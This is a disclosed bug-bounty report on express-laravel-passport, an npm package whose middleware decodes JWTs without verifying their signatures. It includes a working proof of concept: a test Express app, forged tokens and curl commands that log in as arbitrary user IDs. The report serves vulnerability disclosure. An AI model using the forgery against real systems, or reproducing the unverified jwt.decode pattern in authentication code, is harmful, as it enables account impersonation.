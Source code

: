 # [express-laravel-passport] Improper Authentication

## Report Details
- **Report ID**: 748214
- **URL**: https://hackerone.com/reports/748214
- **State**: Closed
- **Severity**: high
- **Submitted**: 2019-11-29T00:48:44.901Z
- **Disclosed**: 2020-01-04T22:09:36.655Z

## Reporter
- **Username**: ermilov
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
I would like to report Improper Authentication in `express-laravel-passport`
It allows to forge user's identity

# Module

**module name:** express-laravel-passport
**version:** 1.1.2
**npm page:** `https://www.npmjs.com/package/express-laravel-passport`

## Module Description

You want a middleware support express get authorization from laravel-passport-structured database, this will help you.

## Module Stats

14 weekly downloads

# Vulnerability

## Vulnerability Description

`express-laravel-passport` is an authentication middleware which utilizes JWT tokens. The module defined to handle authentication but does not validate the JWT token sent by the user. Therefore it allows modifying payload within the token. This weakness provides an opportunity to forge the user's identity by changing the information inside the token's payload that is used to authenticate the client.

source code example:

https://github.com/EugeneNguyen/express-laravel-passport/blob/master/src/index.js#L13

```
const { jti } = jwt.decode(token);
```

`jti` variable retrieved from the token without any verification

## Steps To Reproduce:

* create directory for testing
```bash
mkdir poc
cd poc/
```

* install dependencies required for `express-laravel-passport` and test app to work

```bash
npm init
npm i express
npm i sequelize@4.32.7
npm i sqlite3
npm i express-laravel-passport
```

* create `index.js` with test application code

```javascript
const express = require('express')
const Sequelize = require('sequelize')
const passport = require('express-laravel-passport')

// create inmemory Sqlite DB for testing purposes
const sequelize = new Sequelize('database', 'username', 'password', {dialect: 'sqlite'})

// init express
const app = express()
const port = 3000

// create instance of `express-laravel-passport`
const passportMiddleware = passport(sequelize)

// create db Model that simulates structure required for `express-laravel-passport` to work properly
const Model = sequelize.define('oauth_access_tokens', {
  user_id: Sequelize.INTEGER
}, {
  timestamps: false
});

// create DB
sequelize.sync()
  // put some test data to DB
  .then(() => Model.bulkCreate([{user_id:1},{user_id:2},{user_id:3}]))
  // run the express app with `express-laravel-passport` as middleware
  .then(() => {
    app.get('/', passportMiddleware, (req, res) => {
      const user_id = req.user_id;
      if (user_id) {
        res.send(`logged in as: ${user_id}\n`)
      } else {
        res.send('not logged in\n')
      }
    })

    app.listen(port, () => console.log(`Example app listening on port ${port}!`))
  })
```

* run it

```bash
node index.js
```

the app runs on `localhost:3000`, so now you can send requests to this address in order to test its behaviour

* send crafted request with JWT token in `authorization` header
token is `eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJqdGkiOjF9.n4tWlxEua5n2OtGTUIxIofRS1Rh3tXRsx6B8jIXPsdc`

which represents this payload: `{"jti": 1}` and was simply created at www.jwt.io

```bash
curl -H "authorization:Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJqdGkiOjF9.n4tWlxEua5n2OtGTUIxIofRS1Rh3tXRsx6B8jIXPsdc" localhost:3000
```

`logged in as: 1` is logged to the console as a result

* send another crafted request with JWT token in `authorization` header
token is `eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJqdGkiOjJ9.n4tWlxEua5n2OtGTUIxIofRS1Rh3tXRsx6B8jIXPsdc`

which represents this payload: `{"jti": 2}` ***BUT*** keeps the signature from previous token (n4tWlxEua5n2OtGTUIxIofRS1Rh3tXRsx6B8jIXPsdc), therefore this token is not valid by any means

```bash
curl -H "authorization:Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJqdGkiOjJ9.n4tWlxEua5n2OtGTUIxIofRS1Rh3tXRsx6B8jIXPsdc" localhost:3000
```

`logged in as: 2` is logged to the console as a result, which illustrates the fact that it is possible to forge JWT tokens and fake id of the user.


While testing you can put a breakpoint in poc/node_modules/express-laravel-passport/src/index.js file on line 13, to make sure that it is the `express-laravel-passport` responsible for handling token verification

## Patch

## Supporting Material/References:

- OPERATING SYSTEM VERSION: Linux Mint current
- NODEJS VERSION: 12.7.0
- NPM VERSION: 6.10.0

# Wrap up

- I contacted the maintainer to let them know: N
- I opened an issue in the related repository: N

## Impact

This weakness provides opportunity to forge user's identity by changing information inside token's payload that is used to verify the client.

## Attachments
No attachments
